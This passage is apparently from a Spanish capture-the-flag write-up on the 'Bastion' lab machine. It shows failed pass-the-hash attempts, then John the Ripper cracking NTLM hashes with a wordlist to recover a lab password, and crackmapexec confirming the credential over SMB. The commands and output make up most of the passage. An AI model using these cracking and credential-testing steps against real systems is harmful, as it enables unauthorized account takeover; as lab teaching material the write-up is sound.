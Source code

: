 Bien...

Estuve probando con **evil-winrm**, **psexec**, **wmiexec** y **crackmapexec** con los hashes para hacer *PassTheHash*, pero no tuve éxito, así que solo nos queda intentar crackearlos, usando [John The Ripper](https://www.redeszone.net/seguridad-informatica/john-the-ripper-crackear-contrasenas/) logramos esto, debemos pasarle unos parámetros:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm.hashes
```

* `--wordlist`: El archivo con el que queremos que itere cada hash en busca de similitudes.
* `--format`: El formato en el que están los hashes, en nuestro caso **NTLM** (o **NT** para *john*).

Tenemos:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm.hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:02 DONE (2021-06-03 00:30) 0.8849g/s 4157Kp/s 4157Kc/s 4159KC/s burg772v..burdy1   
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

```bash
❱ john --show --format=NT ntlm.hashes 
Administrator:
Guest:
L4mpje:bureaulampje

3 password hashes cracked, 0 left
```

De los 3 usuarios encontró el resultado del hash de **L4mpje**, el cual da como contraseña a **bureaulampje** ✨

Despues de algo de tiempo muerto jugando con las herramientas que use para el *PassTheHash* no conseguí hacer funcionar las credenciales, pero con **crackmapexec** pude confirmar que si son válidas:

```bash
❱ crackmapexec smb 10.10.10.134 -u 'L4mpje' -p 'pwincorrecta?'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [-] Bastion\L4mpje:pwincorrecta? STATUS_LOGON_FAILURE
```

```bash
❱ crackmapexec smb 10.10.10.134 -u 'L4mpje' -p 'bureaulampje'
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\L4mpje:bureaulampje
```

